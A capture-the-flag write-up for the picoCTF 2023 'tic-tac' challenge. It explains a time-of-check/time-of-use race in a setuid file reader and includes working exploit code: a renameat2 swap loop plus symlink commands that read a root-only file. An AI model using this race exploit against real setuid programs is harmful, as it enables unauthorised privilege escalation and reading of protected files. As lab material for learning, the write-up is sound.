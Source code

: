 # tic-tac

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Expoitation, linux, bash, toctou
Author: JUNIAS BONOU

Description:
Someone created a program to read text files; we think the program reads files with 
root privileges but apparently it only accepts to read files that are owned by the 
user running it.

ssh to saturn.picoctf.net:61030, and run the binary named "txtreader" once connected. 
Login as ctf-player with the password, 8a707622
 
Hints:
(None)
```

## Solution

The challenge title and tags tells us that we should expect a [time-of-check to time-of-use (TOC/TOU)](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) race condition.

### Connect to the server

We start by connecting to the server with SSH
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/tic-tac]
└─$ ssh -p 61030 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61030 ([13.59.203.175]:61030)' can't be established.
ED25519 key fingerprint is SHA256:e8pSZxXYptxqGFMvizVN3x1vGmmhC4iDlWjx8/Js5jY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61030' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

### Investigate the scenario

Next, we investigate the available files
```bash
ctf-player@pico-chall$ ls -la
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Oct  1 14:15 .
drwxr-xr-x 1 root       root          24 Aug  4 21:50 ..
drwx------ 2 ctf-player ctf-player    34 Oct  1 14:15 .cache
-rw-r--r-- 1 root       root          67 Aug  4 21:52 .profile
-rw------- 1 root       root          32 Aug  4 21:52 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4 21:52 txtreader
ctf-player@pico-chall$ file txtreader 
txtreader: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5f31c8b2980e334387115245d52f922371573666, for GNU/Linux 3.2.0, not stripped
```
We have the `txtreader` program with the [Setuid](https://en.wikipedia.org/wiki/Setuid) bit set.  
And a `flag.txt` file only readable by `root` as well as the source code named `src.cpp`.

### Analyse the C++ file

Now we analyse the C++ source
```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
The race condition is between the time-of-check, the `if (stat(filename.c_str(), &statbuf) == -1) {` line,  
and the time-of-use, the `if (file.is_open()) {` line.

This [LiveOverflow video](https://www.youtube.com/watch?v=5g137gsB9Wk) does a good job of describing both the problem and the solution.

### Make a work area

Since the home directory isn't writable to us we need to create a work area
```bash
ctf-player@pico-chall$ TMP_DIR=$(mktemp -d)
ctf-player@pico-chall$ echo $TMP_DIR
/tmp/tmp.ejxpXrVQv6
ctf-player@pico-chall$ chmod 777 $TMP_DIR
ctf-player@pico-chall$ cd $TMP_DIR
```

### Compile the exploit

Then we create the [rename.c exploit](https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c) described in the video above.
```bash
ctf-player@pico-chall$ cat << EOF > rename.c
> #define _GNU_SOURCE
> #include <stdio.h>
> #include <fcntl.h>
> #include <stdio.h>
> #include <unistd.h>
> #include <sys/syscall.h>
> #include <linux/fs.h>
> 
> int main(int argc, char *argv[]) {
>   while (1) {
>     syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
>   }
>   return 0;
> }
> EOF
ctf-player@pico-chall$ 
```
Neither `vi` nor `vim` seemed to be installed so I used a [here document](https://tldp.org/LDP/abs/html/here-docs.html) instead.

Now we compile
```bash
ctf-player@pico-chall$ gcc -o rename rename.c 
ctf-player@pico-chall$ file rename 
rename: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=96a47ccc6a617534efdf3fb5e09207cfcb9dd0e9, for GNU/Linux 3.2.0, not stripped
```

### Prepare the files

The exploit takes two files one files.  
One file should be readable by you and the other should be a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) pointing to the file we want to read.
```bash
ctf-player@pico-chall$ ln -s ~/flag.txt
ctf-player@pico-chall$ ls -l flag.txt 
lrwxrwxrwx 1 ctf-player ctf-player 25 Oct  1 14:24 flag.txt -> /home/ctf-player/flag.txt
ctf-player@pico-chall$ touch myfile.txt
```

### Run the exploit

Next we run the exploit in the background
```bash
ctf-player@pico-chall$ ./rename flag.txt myfile.txt &
[1] 53
```

### Get the flag

Finally, we run the `txtreader` program and ask for `myfile.txt`
```bash
ctf-player@pico-chall$ ./txtreader $TMP_DIR/myfile.txt
picoCTF{<REDACTED>}
```

And we get the flag.

For additional information, please see the references below.

## References

- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [ln - Linux manual page](https://man7.org/linux/man-pages/man1/ln.1.html)
- [mktemp - Linux manual page](https://man7.org/linux/man-pages/man1/mktemp.1.html)
- [Here documents - Advanced Bash-Scripting Guide](https://tldp.org/LDP/abs/html/here-docs.html)
- [Wikipedia - Setuid](https://en.wikipedia.org/wiki/Setuid)
- [Wikipedia - Symbolic link](https://en.wikipedia.org/wiki/Symbolic_link)
- [Wikipedia - Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
